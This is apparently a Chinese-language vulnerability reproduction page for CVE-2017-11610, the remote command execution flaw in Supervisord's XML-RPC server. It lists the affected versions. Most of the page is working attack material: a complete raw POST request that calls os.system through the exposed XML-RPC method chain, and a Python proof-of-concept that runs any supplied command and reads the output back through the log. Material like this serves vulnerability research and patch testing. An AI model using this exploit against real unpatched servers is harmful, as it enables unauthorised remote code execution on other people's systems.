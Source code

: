 （CVE-2017-11610）Supervisord 远程命令执行漏洞
==============================================

一、漏洞简介
------------

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC
server是其中的一个XML-RPC服务器。
Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

二、漏洞影响
------------

supervisor
3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

三、复现过程
------------

直接执行任意命令：

    POST /RPC2 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213

    <?xml version="1.0"?>
    <methodCall>
    <methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
    <params>
    <param>
    <string>touch /tmp/success</string>
    </param>
    </params>
    </methodCall>

![1.png](./resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId24.png)

### 关于直接回显的POC

\@Ricter
在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC：直接贴出来吧：

    #!/usr/bin/env python3
    import xmlrpc.client
    import sys


    target = sys.argv[1]
    command = sys.argv[2]
    with xmlrpc.client.ServerProxy(target) as proxy:
        old = getattr(proxy, 'supervisor.readLog')(0,0)

        logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
        getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
        result = getattr(proxy, 'supervisor.readLog')(0,0)

        print(result[len(old):])

使用Python3执行并获取结果：`./poc.py "http://www.0-sec.org:9001/RPC2" "command"`：![02.png](./resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/supervisor/CVE-2017-11610/
